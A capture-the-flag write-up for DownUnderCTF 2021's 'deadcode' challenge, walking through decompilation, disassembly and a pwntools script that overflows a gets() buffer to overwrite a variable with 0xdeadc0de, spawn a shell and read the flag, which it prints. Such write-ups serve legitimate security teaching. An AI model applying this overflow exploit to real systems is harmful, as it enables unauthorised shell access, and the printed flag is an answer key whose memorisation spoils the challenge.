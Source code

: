 # deadcode

> I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.
> 
> Author: xXl33t_h@x0rXx
> 
> [`deadcode`](deadcode)

## Analysis
### checksec

```
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

### Decompile with radare2

```cpp
undefined8 main(void){
    char *s;
    uint32_t var_8h;
    
    _var_8h = 0;
    sym.buffer_init();
    sym.imp.puts(
                "\nI\'m developing this new application in C, I\'ve setup some code for the new features but it\'s not (a)live yet."
                );
    sym.imp.puts("\nWhat features would you like to see in my app?");
    sym.imp.gets(&s);
    if (_var_8h == 0xdeadc0de) {
        sym.imp.puts("\n\nMaybe this code isn\'t so dead...");
        sym.imp.system("/bin/sh");
    }
    return 0;
}
```

The binary compares the variable `_var_8h` with `deadc0de` and if true, runs a shell.

So it looks like we have to overwrite the `_var_8h` variable.

Opening the binary in gdb and disassembling the main function, we can see the position of the `_var_8h` variable to be `rbp-0x8` at address `0x40119d`.

```
Dump of assembler code for function main:
   0x0000000000401195 <+0>:	push   rbp
   0x0000000000401196 <+1>:	mov    rbp,rsp
   0x0000000000401199 <+4>:	sub    rsp,0x20
   0x000000000040119d <+8>:	mov    QWORD PTR [rbp-0x8],0x0
   0x00000000004011a5 <+16>:	mov    eax,0x0
   0x00000000004011aa <+21>:	call   0x401152 <buffer_init>
   0x00000000004011af <+26>:	lea    rdi,[rip+0xe52]        # 0x402008
   0x00000000004011b6 <+33>:	call   0x401030 <puts@plt>
   0x00000000004011bb <+38>:	lea    rdi,[rip+0xeb6]        # 0x402078
   0x00000000004011c2 <+45>:	call   0x401030 <puts@plt>
   0x00000000004011c7 <+50>:	lea    rax,[rbp-0x20]
   0x00000000004011cb <+54>:	mov    rdi,rax
   0x00000000004011ce <+57>:	mov    eax,0x0
   0x00000000004011d3 <+62>:	call   0x401060 <gets@plt>
   0x00000000004011d8 <+67>:	mov    eax,0xdeadc0de
   0x00000000004011dd <+72>:	cmp    QWORD PTR [rbp-0x8],rax
   0x00000000004011e1 <+76>:	jne    0x401200 <main+107>
   0x00000000004011e3 <+78>:	lea    rdi,[rip+0xebe]        # 0x4020a8
   0x00000000004011ea <+85>:	call   0x401030 <puts@plt>
   0x00000000004011ef <+90>:	lea    rdi,[rip+0xed5]        # 0x4020cb
   0x00000000004011f6 <+97>:	mov    eax,0x0
   0x00000000004011fb <+102>:	call   0x401050 <system@plt>
   0x0000000000401200 <+107>:	mov    eax,0x0
   0x0000000000401205 <+112>:	leave  
   0x0000000000401206 <+113>:	ret    
End of assembler dump.
```

Now we need to find the offset from the input to the variable.

![](/DownUnderCTF_2021/pwn/deadcode/imgs/2021-09-25_14-07.png)

The offset for `_var_8h` is 24.

### Exploit

```py
from pwn import *

if args.REMOTE:
    p=remote('pwn-2021.duc.tf', 31916)
else:
    p=process('./deadcode')

payload='A'*24+p64(0xdeadc0de)
p.recvuntil("my app?")
p.sendline(payload)
p.sendline("cat flag.txt")
p.interactive()
```

![](/DownUnderCTF_2021/pwn/deadcode/imgs/2021-09-25_14-12.png)

flag: `DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}`